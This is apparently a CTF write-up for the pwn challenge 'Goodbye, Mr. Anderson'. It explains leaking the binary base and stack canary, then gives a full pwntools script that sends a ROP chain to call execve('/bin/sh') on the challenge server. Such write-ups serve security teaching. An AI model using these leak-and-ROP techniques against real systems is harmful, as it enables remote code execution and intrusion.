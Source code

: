 ### Goodbye, Mr. Anderson (300 Points)

> Do it again Neo. Cheat death.
>
> [attachment](leaks-c85e4a348b2a07ba8e6484d69956d968)

This program has four input and three output:

- The first input is stored in .bss, so we can input the "/bin/sh" . 
- Than use the second input and output to leak the .text address. 
  - if we have .text segment address, we can get address of "bin/sh" and get address of gadgets in the .text segment. such as `pop rdi; ret`,`pop rax;syscall` 
- The third input and output are used to leak the canary value.
- Now, we can use the last input lay out the stack to ROP (call execve syscall).

#### exploit script

```python
from pwn import *
context.log_level='debug'

#p = process('leaks-c85e4a348b2a07ba8e6484d69956d968')

p = remote('chal.ctf.b01lers.com',1009)
elf = ELF('./leaks-c85e4a348b2a07ba8e6484d69956d968')
libc = elf.libc

# gdb.attach(p)
p.recvuntil('Mr. Anderson.\n')

p.sendline('8')
p.sendline('/bin/sh\x00')


p.sendline('8')
p.sendline('C'*8)

p.recvuntil('C'*8)
code_base = u64(p.recv(6).ljust(8,'\x00'))-0x110a
print hex(code_base)


p.sendline('24')
p.sendline('A'*24)
#gdb.attach(p,'b printf')
p.recvuntil('A'*24)
canary = u64(p.recv(8))-0xa
print hex(canary)


pop_rdi = code_base+0x00000000000013f3
pop_rsi_15 = code_base + 0x00000000000013f1

payload = 'A'*0x18
payload += p64(canary)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(code_base+elf.sym['name'])
payload += p64(pop_rsi_15)
payload += p64(0)
payload += p64(0)
payload += p64(code_base+elf.sym['yay']+8) # pop rax;syscall
payload += p64(0x3b)

p.sendline(str(len(payload)))
# gdb.attach(p)
p.sendline(payload)


p.interactive()
```


